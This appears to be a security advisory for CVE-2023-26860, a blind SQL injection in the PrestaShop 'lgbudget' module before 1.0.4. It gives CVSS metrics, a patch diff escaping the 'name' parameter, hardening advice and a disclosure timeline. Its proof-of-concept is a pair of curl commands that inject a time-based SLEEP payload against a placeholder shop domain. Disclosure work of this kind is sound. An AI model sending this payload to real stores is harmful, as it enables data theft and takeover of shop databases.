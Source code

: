 ```yaml
---
layout: post
title: "[CVE-2023-26860] Improper neutralization of an SQL parameter in lgbudget module for PrestaShop"
categories: modules
author:
- 202-ecommerce.com
- TouchWeb.fr
- Friends-Of-Presta.org
meta: "CVE,PrestaShop,lgbudget"
severity: "high (8.8)"
---
```


In the module "Save your carts and buy later" (lgbudget) for PrestaShop, an authenticated user can perform a blind SQL injection up to 1.0.3. Release 1.0.4 fixed this security issue.

## Summary

* **CVE ID**: [CVE-2023-26860](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-26860)
* **Published at**: 2023-04-04
* **Advisory source**: Friends-Of-Presta.org
* **Vendor**: PrestaShop
* **Product**: lgbudget
* **Impacted release**: < 1.0.4
* **Product author**: Línea Gráfica
* **Weakness**: [CWE-89](https://cwe.mitre.org/data/definitions/89.html)
* **Severity**: high (8.8)

## Description

Up to 1.0.3, a sensitive SQL calls in class `LgBudgetBudgetModuleFrontController::displayAjaxGenerateBudget()` can be executed with a trivial http call and exploited to forge a blind SQL injection throught the POST or GET submitted "name" variable.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: low
* **User interaction**: none
* **Scope**: unchanged
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: [CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H)

## Possible malicious usage

* Technical and personal data leaks
* Obtain admin access
* Remove all data of the linked PrestaShop
* Display sensitives tables to front-office to unlock potential admin’s ajax scripts of modules protected by token on the ecosystem

## Proof of concept


```bash
curl -v --cookie-jar cookie.txt -X POST -d 'token=<predictible_token>&id_product=123&qty=1&add=1&action=update' 'https://domain.tld/cart'
&& curl -v --cookie cookie.txt 'https://domain.tld/module/lgbudget/budget?ajax=1&action=generateBudget&name=test%22,%20%222022-01-01%22%20%29%3BSELECT%20SLEEP%2825%29%3B--'
```

## Patch

To fix this issue, in file controllers/front/budget.php line 42, you need to escape $name in `LgBudgetBudgetModuleFrontController::displayAjaxGenerateBudget()`.

```diff
diff -bpru lgbudget_1.0.3_VULN/controllers/front/budget.php v1.0.4-lgbudget/lgbudget/controllers/front/budget.php
--- v1.0.3/controllers/front/budget.php
+++ v1.0.4/lgbudget/controllers/front/budget.php
@@ -39,7 +49,7 @@ class LgBudgetBudgetModuleFrontControlle
                     "' . Context::getContext()->cookie->checksum .'",
                     ' . (int)$id_shop . ', 
                     ' . (int)$id_customer . ', 
-                    "' . $name . '", 
+                    "' . pSQL($name) . '", 
                     "' . $date_add . '"
                 )';
```

## Other recommandations

* It’s recommended to upgrade the module beyond 1.0.4.
* Upgrade PrestaShop beyond 1.7.8.8 (and 8.0.1) to disable multiquery executions (separated by “;”).
* Change the default database prefix ps_ by a new longer arbitrary prefix. Nethertheless, be warned that this is useless against blackhat with DBA senior skill because of a design vulnerability in DBMS
* Activate OWASP 942’s rules on your WAF (Web application firewall), be warned that you will probably break your backoffice and you will need to pre-configure some bypasses against these set of rules.

## Timeline

| Date | Action |
|--|--|
| 2023-02-10 | Vulnerability discovered by 202 ecommerce during an security audit |
| 2023-02-10 | Contact PrestaShop addons |
| 2023-02-12 | Request a CVE ID |
| 2023-03-02 | Fix published on addons PrestaShop marketplace |
| 2023-03-17 | Propose a delay of to PrestaShop addons before disclosure |
| 2023-03-27 | PrestaShop addons confirm the CVE can be published |
| 2023-04-04 | Publication of the security advisory |

## Links

* [PrestaShop addons product page](https://addons.prestashop.com/en/order-management/45282-save-your-carts-and-buy-later-or-send-it.html)
* [National Vulnerability Database](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-26860)

